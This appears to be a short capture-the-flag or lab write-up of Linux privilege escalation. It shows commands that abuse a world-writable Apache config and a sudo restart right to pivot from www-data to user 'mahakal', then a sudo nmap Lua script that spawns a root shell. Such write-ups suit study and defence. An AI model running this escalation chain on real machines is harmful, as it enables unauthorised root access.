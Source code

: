 -  sudo \-l
-  User www\-data may run the following commands on ubuntu:
\(ALL\) NOPASSWD: /bin/systemctl start apache2
\(ALL\) NOPASSWD: /bin/systemctl stop apache2
\(ALL\) NOPASSWD: /bin/systemctl restart apache2

-  ls \-la /etc/apache2
-  \-rwxrwxrwx  1 root root  7224 Mar 13  2020 apache2\.conf

edit apache2\.conf

replace
User $\{APACHE\_USER\}
Group $\{APACHE\_USER\}

User mahakal
Group mahakal

-  cp /tmp/apache2\.conf /etc/apache2/apache2\.conf
-  sudo /bin/systemctl restart apache2

$ mahakal
-  sudo \-l
User mahakal may run the following commands on ubuntu:
\(root\) NOPASSWD: /usr/bin/nmap
-  TF=$\(mktemp\)
-  echo 'os\.execute\("/bin/sh"\)' \> $TF
-  sudo nmap \-\-script=$TF
# root
